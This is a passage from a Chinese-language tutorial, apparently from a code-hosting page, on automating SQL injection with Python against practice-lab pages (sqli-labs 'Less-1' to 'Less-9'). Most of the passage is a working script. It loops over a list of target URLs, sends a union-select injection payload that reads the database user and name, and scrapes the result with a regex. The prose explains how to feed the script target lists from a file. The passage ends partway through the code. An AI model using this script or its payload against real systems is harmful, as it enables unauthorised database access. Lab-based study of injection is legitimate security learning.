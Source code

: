 ```python
		
		result = re.findall('<font.*?>(.*?)</font>',r.text)

		print(('第{}次:').format(num)+result[1])

	except:
		print('error')
		# exit()

# if __name__ == '__main__':
# 	sql(url)

dic = [
	'http://www.sql.com/Less-1/',
	'http://www.sql.com/Less-2/',
	'http://www.sql.com/Less-3/',
	'http://www.sql.com/Less-4/',
	'http://www.sql.com/Less-5/',
	'http://www.sql.com/Less-6/',
	'http://www.sql.com/Less-7/',
	'http://www.sql.com/Less-8/',
	'http://www.sql.com/Less-9/'
]

for url in dic:
	num += 1
	sql(url,num)
```

这里内置了一个字典，<br>

把字典里面的值赋值给 **url** <br>

然后传入一个 **url** 值给 **sql()** 函数 <br>

最后通过 **for** 循环去调用 **sql()** 函数 ，就不需要自动调用了。

-----

当然也可以通过外部导入字典 ，<br>

导入外部字典的好处就是减少代码量， <br>

假设导入 D 盘 里面的 sql.txt 字典。 <br>

```python
import requests
import re

global num

num = 0

def sql(url,num):

	try:

		# url = "http://www.sql.com/Less-1/?id=-1\'";

		payloads = "?id=-1' union select 1,user(),database() --+"

		headers = {
			'Host': 'www.sql.com',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
```